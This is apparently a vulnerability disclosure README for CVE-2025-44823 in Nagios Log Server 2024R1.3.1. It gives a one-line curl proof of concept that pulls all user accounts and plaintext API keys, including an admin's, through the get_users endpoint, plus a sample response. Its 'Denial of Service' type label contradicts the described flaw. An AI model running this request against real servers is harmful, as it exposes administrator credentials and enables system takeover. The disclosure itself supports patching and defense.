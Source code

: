 # Authenticated API Key Exposure in Nagios Log Server 2024R1.3.1

[▶️ PoC Demo](https://youtu.be/amYMuK3YSM8?si=QrMPhQP-gcA2UpoH)

#### CVE ID: [CVE-2025-44823](https://nvd.nist.gov/vuln/detail/CVE-2025-44823)
#### Date: 2025-04-02
#### Exploit Author: [Alex Tisdale](https://www.linkedin.com/in/alex-tisdale-037023187/), Seth Kraft
#### Vendor Homepage: https://www.nagios.com/
#### Vendor Changelog: https://www.nagios.com/changelog/#log-server
#### Software Link: https://assets.nagios.com/downloads/nagios-log-server/versions.php
#### Version: 2024R1.3.1 and below
#### Tested On: Nagios Log Server 2024R1.3.1 (default configuration, Ubuntu 20.04)
#### CWE: CWE-284, CWE-285
#### CVSS: 9.9 `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`
#### Type: Denial of Service (DoS)

## Authorization
**For research and authorized testing only.** Please do not use against systems without permission.

## Description
An API-level vulnerability in Nagios Log Server 2024R1.3.1 allows any user with a valid API token to retrieve a full list of user accounts along with their plaintext API keys, including administrator credentials. This flaw enables user enumeration, privilege escalation, and full system compromise via unauthorized use of exposed tokens.

## PoC

### Step 1: Access the vulnerable endpoint

```
curl -X GET "http://<target-ip>/nagioslogserver/index.php/api/system/get_users?token=<valid_token>"
```

## Sample Response

```json
[
  {
    "name": "devadmin",
    "username": "devadmin",
    "email": "test@example.com",
    "apikey": "dcaa1693a79d651ebc29d45c879b3fbbc730d2de",
    "auth_type": "admin",
    ...
  }
]
```
